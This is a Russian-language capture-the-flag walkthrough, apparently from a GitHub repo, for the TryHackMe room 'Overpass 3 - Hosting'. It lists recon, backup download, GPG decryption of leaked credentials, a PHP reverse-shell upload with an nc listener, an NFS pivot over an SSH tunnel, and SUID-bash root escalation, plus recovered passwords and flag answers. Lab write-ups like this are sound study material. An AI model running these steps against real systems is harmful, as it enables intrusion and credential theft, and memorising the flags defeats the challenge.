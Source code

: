 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Overpass 3 - Hosting](https://tryhackme.com/r/room/overpass3hosting) 

Всего 1 заданиe:
## Задание 1
После неудачного старта Overpass в сфере информационной безопасности, коммерческого провала их менеджера паролей и 
последующего взлома они решили попробовать себя в новом бизнесе.

Overpass стал компанией веб-хостинга!
К сожалению, они не извлекли уроков из своих прошлых ошибок. Ходят слухи, что их главный веб-сервер крайне уязвим.

Предупреждение: Загрузка этого ящика может занять около 5 минут, если вы не являетесь подписчиком. Как подписчик, 
он будет готов гораздо быстрее.

Я буду просматривать записи для этой комнаты, начиная с 1 недели после выпуска. До этого времени, пожалуйста, не 
публикуйте записи. Хранить их в нераспечатанном виде — это нормально, но, пожалуйста, не делитесь ими.

Вы можете транслировать эту комнату, как только статьи будут одобрены.
Изображение баннера от  Nastuh Abootalebi на Unsplash

### Ответьте на вопросы ниже
Веб-флаг
```commandline
nmap -sSCV <IP>
gobuster dir -u http://<IP> -x php,txt,old,bak,tar,zip -w /usr/share/wordlists/dirb/common.txt
wget http://<IP>/backups/backup.zip
unzip backup.zip
gpg --import priv.key
gpg --decrypt-file CustomerDetails.xlsx.gpg 
ll
# CustomerDetails.xlsx
# paradox:ShibesAreGreat123
# 0day:OllieIsTheBestDog
# muirlandoracle:A11D0gsAreAw3s0me

ftp <IP>
paradox:ShibesAreGreat123
ls -la
put shell.php
nc -nlvp 4444
curl -s http://<IP>/shell.php
find / -type f -name "*flag*" -exec ls -l {} + 2>/dev/null
cat /usr/share/httpd/web.flag
```
```commandline
thm{0ae72f7870c3687129f7a824194be09d}
```
Пользовательский флаг
```commandline
ls -la /home
sudo -l
find / -type f -user james -exec ls -l {} + 2>/dev/null
rpcinfo -p | grep nfs
mkdir nfs
sudo mount -t nfs <IP>:/home/james nfs
sshpass -p "ShibesAreGreat123" ssh paradox@<IP> -L 2049:127.0.0.1:2049
nmap -p 2049 -sC -sV 127.0.0.1
sudo mount -t nfs 127.0.0.1: nfs
cd nfs
ll
cat user.flag
```
```commandline
thm{3693fc86661faa21f16ac9508a43e1ae}
```
Корневой флаг
```commandline
ls -la
cp ~/.ssh/id_rsa.pub .ssh/authorized_keys
ssh james@<IP>
cp /usr/bin/bash /home/james/
sudo chown root:root bash
sudo chmod +s bash
ll
./bash -p
cat /root/root.flag
```
```commandline
thm{a4f6adb70371a4bceb32988417456c44}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)